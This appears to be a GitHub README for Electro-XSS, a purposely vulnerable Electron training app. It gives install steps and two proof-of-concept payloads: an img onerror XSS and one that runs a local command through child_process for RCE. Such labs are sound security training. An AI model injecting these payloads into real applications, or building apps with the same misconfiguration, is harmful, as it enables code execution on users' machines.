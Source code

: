 # Electro-XSS
------------------------


Electro-XSS is a buggy desktop application developed with the Electron JS Framework. This application will assist you in grasping the electron apps' basic structure as well as the most common Dev misconfiguration. This app allows security professionals to simulate XSS and RCE attacks.

#### Requirements


* Install [nodejs & npm](https://nodejs.org/en/)

####  Installation


```bash
git clone https://github.com/MrH4r1/Electro-XSS.git
cd Electro-XSS
npm install
```

![alt text](https://github.com/MrH4r1/Electro-XSS/blob/main/Static/Electro-XSS-Install.gif?raw=true)


#### Running Electro-XSS

```bash
 npm run electro-xss
```

![alt text](https://github.com/MrH4r1/Electro-XSS/blob/main/Static/Electro-XSS-run.gif?raw=true)

#### XSS

```js
<img src=x onerror=alert(1) />
```

![alt text](https://github.com/MrH4r1/Electro-XSS/blob/main/Static/Electro-XSS.gif?raw=true)

#### RCE

```js
<img src=x onerror=alert(require('child_process').execSync('gnome-calculator')); />
```

![alt text](https://github.com/MrH4r1/Electro-XSS/blob/main/Static/Electro-XSS-RCE.gif?raw=true)
